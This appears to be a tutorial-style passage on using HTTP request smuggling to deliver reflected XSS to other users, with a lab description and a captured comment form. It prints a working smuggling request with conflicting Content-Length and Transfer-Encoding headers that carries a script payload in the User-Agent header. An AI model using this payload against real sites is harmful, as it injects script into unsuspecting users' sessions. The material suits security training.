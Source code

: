 If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application. This approach is superior to normal exploitation of reflected XSS in two ways:

-    It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
-    It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header. You can exploit this in a request smuggling attack as follows:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response. 
### Lab: Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1). 

```html
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="oKi234nXB9JTG19sECkDeEeOKC1YryQM">
    <input required type="hidden" name="userAgent" value="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36">
    <input required type="hidden" name="postId" value="5">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
            <label>Name:</label>
            <input required type="text" name="name">
            <label>Email:</label>
            <input required type="email" name="email">
            <label>Website:</label>
            <input pattern="(http:|https:).+" type="text" name="website">
    <button class="button" type="submit">Post Comment</button>
</form>
```
